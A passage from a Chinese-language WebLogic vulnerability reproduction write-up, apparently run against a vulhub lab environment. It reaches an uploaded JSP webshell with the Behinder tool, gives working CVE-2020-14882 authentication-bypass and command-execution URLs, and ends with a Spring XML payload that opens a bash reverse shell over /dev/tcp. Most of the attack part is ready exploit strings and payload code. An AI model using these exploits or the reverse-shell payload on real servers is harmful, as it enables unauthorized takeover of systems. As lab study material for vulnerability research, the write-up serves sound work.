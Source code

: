 尽管上传后会报错，但是抓 post 包的响应中有 jsp 文件名  
[![](assets/1699005728-12a2845471fca03f55adb789373467fe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101202033-0e13eb6a-78b1-1.png)  
访问`http://10.140.32.159:33401/ws_utc/css/upload/RS_Upload_2023-08-24_13-16-31_154/import_file_name_shell.jsp`，使用冰蝎连接

#### 3.2.2 CVE-2020-14882

**漏洞复现**：  
使用 vulhub 上的 docker 搭建环境  
这里未授权访问的地址是  
`http://10.140.32.159:33401/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=AppDeploymentsControlPage&handle=com.bea.console.handles.JMXHandle%28%22com.bea%3AName%3Dbase_domain%2CType%3DDomain%22%29`，通过这个地址就能够进入后台  
命令执行操作：  
`http://10.140.32.159:33401/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27touch /tmp/CVE-2020-14882%27);%22);`  
命令执行成功  
[![](assets/1699005728-53bef8abb566c3baa38c24e98439f821.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101202058-1cc28f86-78b1-1.png)  
反弹 shell  
创建一个 xml 文件

```bash
# reverse-bash.xml

<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
<constructor-arg>
<list>
<value>/bin/bash</value>
<value>-c</value>
<value><![CDATA[bash -i >& /dev/tcp/172.24.0.1/5555 0>&1]]></value>
</list>
</constructor-arg>
</bean>
</beans>
```
